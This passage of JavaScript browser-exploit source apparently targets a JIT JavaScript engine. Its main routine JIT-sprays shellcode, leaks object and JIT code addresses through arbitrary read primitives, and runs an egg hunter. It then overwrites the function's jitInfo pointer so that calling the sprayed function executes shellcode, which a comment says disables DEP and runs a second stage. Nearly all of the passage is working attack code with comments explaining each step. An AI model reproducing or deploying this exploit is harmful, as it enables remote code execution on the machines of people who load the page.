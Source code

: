         return 0.0;
    }


    ////////
    ////////
    // Primary high level exploit logic
    ////////

    function Exploit() {
        for(var i = 0; i < JITIterations; i++) {
            JITSprayFunc(); // JIT spray the shellcode to a private +RX region of virtual memory
        }

        HelperDbl[0] = WeakLeakObjectAddress(JITSprayFunc); // The JSFunction object address associated with the (now JIT compiled) shellcode data.
        HelperDword[0] = HelperDword[0] + 0x30; // JSFunction.u.native.extra.jitInfo_ contains a pointer to the +RX JIT region at offset 0 of its struct.
        JITInfoAddress = WeakLeakDbl(HelperDbl[0]);
        HelperDbl[0] = JITInfoAddress;

        // Verify that MutableArray.x was not its initialized value during the last arbitrary read. This would only be the case if the slots ptr has NEVER been successfully overwritten post-addrof primitive (the address we attempted to read was not a valid double).

        if(HelperDword[0] == 0x41414141) {
            DebugLog("Arbitrary read primitive failed");
            window.location.reload();
        }
        else {
            // Setup the strong read primitive for the stage one egg hunter: attempting to interpret assembly byte code as doubles via weak primitive may crash the process (tagged pointer bits could cause the read value to be dereferenced as a pointer)

            HelperDbl[0] = WeakLeakDbl(JITInfoAddress); // Leak the address to the compiled JIT assembly code associated with the JIT'd shellcode function from its JitInfo struct (it is a pointer at offset 0 of this struct)
            DebugLog("Shellcode function object JIT code pointer is 0x" + HelperDword[1].toString(16) + HelperDword[0].toString(16));
            JITCodePtr = HelperDbl[0];
            ExplicitDblArrayAddress = WeakLeakObjectAddress(ExplicitDblArray);
            HelperDbl[0] = ExplicitDblArrayAddress;
            HelperDword[0] = HelperDword[0] + 56; // Float64Array data pointer
            ExplicitDblArrayDataPtr = HelperDbl[0];
            ShellcodeAddress = EggHunter(JITCodePtr); // For this we need the strong read primitive since values here can start with 0xffff and thus act as tags

            if(ShellcodeAddress) {
                // Trigger code exec by calling the JIT sprayed function again. Its code pointer has been overwritten to now point to the literal shellcode data within the JIT'd function

                WeakWriteDbl(JITInfoAddress, ShellcodeAddress);
                JITSprayFunc(); // Notably the location of the data in the stage two shellcode Uint8Array can be found at offset 0x40 from the start of the array object when the array is small, and when it is large (as in the case of the WPAD shellcode) a pointer to it can be found at offset 0x38 from the start of the array object. In this case though, the stage one egg hunter shellcode finds, disables DEP and ADDITIONALLY executes the stage two shellcode itself, so there is no reason to locate/execute it from JS.
            }
            else {
                DebugLog("Failed to resolve shellcode address");
            }
        }
    }

    Exploit();